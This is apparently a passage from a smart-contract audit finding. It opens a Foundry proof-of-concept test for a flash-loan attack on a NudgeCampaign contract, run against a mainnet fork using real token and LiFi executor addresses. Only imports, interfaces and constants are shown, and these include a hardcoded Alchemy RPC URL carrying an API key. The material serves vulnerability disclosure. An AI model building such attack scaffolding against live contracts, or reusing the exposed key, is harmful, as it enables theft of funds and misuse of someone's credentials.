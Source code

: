 Here is a test to prove this. This was run in mainnet fork. Since this will be deployed on Ethereum and other L2s in from the doc. Create a new test file and add this to the test suite `src/test/NudgeCampaignAttackTest.t.sol`.
```

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.28;

import { Test, console } from "forge-std/Test.sol";
import "@openzeppelin/contracts/utils/math/Math.sol";
import { NudgeCampaign } from "../campaign/NudgeCampaign.sol";
import { NudgeCampaignFactory } from "../campaign/NudgeCampaignFactory.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { FlashLoanAttackContract } from "./FlashLoanAttackContractTest.t.sol";
import { IBaseNudgeCampaign } from "../campaign/interfaces/INudgeCampaign.sol";

library LibSwap {
  struct SwapData {
    address callTo;
    address approveTo;
    address sendingAssetId;
    address receivingAssetId;
    uint256 fromAmount;
    bytes callData;
    bool requiresDeposit;
  }
}

interface ILifiExecutor is IERC20 {
  function erc20Proxy() external view returns (address);
  function swapAndExecute(
    bytes32 _transactionId,
    LibSwap.SwapData[] calldata _swapData,
    address _transferredAssetId,
    address payable _receiver,
    uint256 _amount
  )
    external
    payable;
}

contract NudgeCampaignAttackTest is Test {
  NudgeCampaign private campaign;
  address NATIVE_TOKEN = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
  address owner;
  uint256 constant REWARD_PPQ = 2e13;
  uint256 constant INITIAL_FUNDING = 100_000e18;
  address campaignAdmin = address(14);
  address nudgeAdmin = address(15);
  address treasury = address(16);
  address operator = address(17);
  address alternativeWithdrawalAddress = address(16);
  address campaignAddress;
  uint32 holdingPeriodInSeconds = 60 * 60 * 24 * 7; // 7 days
  uint256 rewardPPQ = 2e13;
  uint256 RANDOM_UUID = 111_222_333_444_555_666_777;
  uint16 DEFAULT_FEE_BPS = 1000;
  NudgeCampaignFactory factory;
  address constant SWAP_CALLER = 0x2dfaDAB8266483beD9Fd9A292Ce56596a2D1378D; //LIFI EXECUTOR
  string constant MAINNET_RPC_URL = "https://eth-mainnet.g.alchemy.com/v2/j7SKDcG36WqFJxaAGYTsKo6IIDFSmFhl";
  IERC20 constant WETH = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2); //rewardToken
  IERC20 constant DAI = IERC20(0x6B175474E89094C44Da98b954EedeAC495271d0F); //toToken
  ILifiExecutor constant LIFI_EXECUTOR = ILifiExecutor(0x2dfaDAB8266483beD9Fd9A292Ce56596a2D1378D);
```